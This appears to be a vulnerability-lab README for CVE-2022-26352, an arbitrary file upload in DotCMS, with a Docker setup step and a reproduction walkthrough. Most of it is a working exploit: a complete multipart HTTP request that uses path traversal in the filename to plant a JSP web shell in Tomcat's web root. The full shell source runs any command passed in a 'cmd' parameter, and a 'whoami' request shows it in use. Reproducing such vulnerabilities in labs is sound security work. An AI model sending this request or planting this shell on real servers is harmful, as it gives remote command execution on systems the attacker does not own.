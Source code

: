 ### DotCMS Arbitrary File Upload  (CVE-2022-26352)

Reference:  https://blog.assetnote.io/2022/05/03/hacking-a-bank-using-dotcms-rce/	

#### Environment Setup

```
`docker-compose up -d`
```

visiting `https://your-ip:8443/dotAdmin` to see the login page.

#### Exploit

```
POST /api/content/ HTTP/1.1
Host: your-ip:8443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 1152
Content-Type: multipart/form-data; boundary=------------------------aadc326f7ae3eac3
Accept-Encoding: gzip, deflate
Connection: close

--------------------------aadc326f7ae3eac3
Content-Disposition: form-data; name="name"; filename="../../../../../../../../../srv/dotserver/tomcat-9.0.41/webapps/ROOT/webshell.jsp"
Content-Type: text/plain

<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
--------------------------aadc326f7ae3eac3--
```

![1](1.png)

`https://your-ip:8443/webshell.jsp?cmd=whoami`

![2](2.png)
